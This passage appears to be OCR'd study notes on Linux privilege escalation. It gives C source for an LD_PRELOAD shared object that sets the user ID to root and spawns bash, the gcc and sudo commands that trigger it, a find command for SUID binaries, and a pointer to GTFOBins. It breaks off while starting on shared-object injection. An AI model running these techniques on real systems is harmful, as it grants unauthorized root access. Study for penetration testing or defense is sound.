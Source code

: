 code(shell.c) :
```
#include<stdio.h>
#include<sys/types.h>
#include<stdlib.h>

void _init(){
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```

command to excute the above code:
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls
sudo LD_PRELOAD=/home/user/shell.so apache2

## IMPROPER SUID PERMISSIONS

SUID(Set User ID) is a special permission on a file that lets a user execute that file with the privilege of the file owner (usually root). So if a file is owned by root and has the SUID bit set, then any user can run it to become a root

I.To find the suid bit is set:
command:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

/ - search entire system
-type f - only files
-perm -04000 - has SUID bit set
-ls - show output with permissions, owner, size, etc.
2>/dev/null: ignore permission errors

now look the output for the suid bit set and guess which is vulnerable we
can use the gtfobins for this purposes.

GTFOBins is a database of linux binaries that can be abused for privilege escalation if it has weak sudo and suid configuration is set

## OTHER SUID VULNERABILITIES

I.Vulnerability based on the shared object injection:

It also depenpence upon the suid bit, if the suid bit is set for the shared object file(.so) it may be vulnerable where an attacker exploits
the way a program loads shared libraries (.so files in Linux) to execute
arbitrary code. It is similar to DLL Injection in Windows.

First find the suid bit that are said for the machine:
        
the command:
